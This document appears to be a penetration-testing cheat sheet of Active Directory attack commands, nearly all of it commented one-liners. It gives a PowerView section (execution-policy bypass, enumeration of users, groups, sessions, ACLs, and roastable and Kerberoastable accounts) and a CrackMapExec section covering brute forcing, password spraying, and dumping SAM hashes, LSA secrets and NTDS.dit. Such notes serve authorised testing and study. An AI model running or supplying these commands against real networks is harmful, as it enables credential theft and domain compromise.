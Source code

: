 ## Using PowerView

```PowerShell
PowerShell -ep bypass
```

```PowerShell
Import-Module .\PowerView.ps1
```

```PowerShell
Import-Module .\PowerView.ps1 #loading module to powershell, if it gives error then change execution policy
Get-NetDomain #basic information about the domain
Get-NetUser #list of all users in the domain
# The above command's outputs can be filtered using "select" command. For example, "Get-NetUser | select cn", here cn is sideheading for   the output of above command. we can select any number of them seperated by comma.
Get-NetGroup # enumerate domain groups
Get-NetGroup "group name" # information from specific group
Get-NetComputer # enumerate the computer objects in the domain
Find-LocalAdminAccess # scans the network in an attempt to determine if our current user has administrative permissions on any computers in the domain
Get-NetSession -ComputerName files04 -Verbose #Checking logged on users with Get-NetSession, adding verbosity gives more info.
Get-NetUser -SPN | select samaccountname,serviceprincipalname # Listing SPN accounts in domain
Get-ObjectAcl -Identity <user> # enumerates ACE(access control entities), lists SID(security identifier). ObjectSID
Convert-SidToName <sid/objsid> # converting SID/ObjSID to name 

# Checking for "GenericAll" right for a specific group, after obtaining they can be converted using convert-sidtoname
Get-ObjectAcl -Identity "group-name" | ? {$_.ActiveDirectoryRights -eq "GenericAll"} | select SecurityIdentifier,ActiveDirectoryRights 

Find-DomainShare #find the shares in the domain

Get-DomainUser -PreauthNotRequired -verbose # identifying AS-REP roastable accounts

Get-NetUser -SPN | select serviceprincipalname #Kerberoastable accounts
```


# CrackMapExec (or NetExec)

```Bash
crackmapexec {smb/winrm/mssql/ldap/ftp/ssh/rdp} #supported services
crackmapexec smb <Rhost/range> -u user.txt -p password.txt --continue-on-success # Bruteforcing attack, smb can be replaced. Shows "Pwned"
crackmapexec smb <Rhost/range> -u user.txt -p password.txt --continue-on-success | grep '[+]' #grepping the way out!
crackmapexec smb <Rhost/range> -u user.txt -p 'password' --continue-on-success  #Password spraying, viceversa can also be done
crackmapexec smb <Rhost/range> -u 'user' -p 'password' --shares #lists all shares, provide creds if you have one
crackmapexec smb <Rhost/range> -u 'user' -p 'password' --disks
crackmapexec smb <DC-IP> -u 'user' -p 'password' --users #we need to provide DC ip
crackmapexec smb <Rhost/range> -u 'user' -p 'password' --sessions #active logon sessions
crackmapexec smb <Rhost/range> -u 'user' -p 'password' --pass-pol #dumps password policy
crackmapexec smb <Rhost/range> -u 'user' -p 'password' --sam #SAM hashes
crackmapexec smb <Rhost/range> -u 'user' -p 'password' --lsa #dumping lsa secrets
crackmapexec smb <Rhost/range> -u 'user' -p 'password' --ntds #dumps NTDS.dit file
crackmapexec smb <Rhost/range> -u 'user' -p 'password' --groups {groupname} #we can also run with a specific group and enumerated users of that group.
```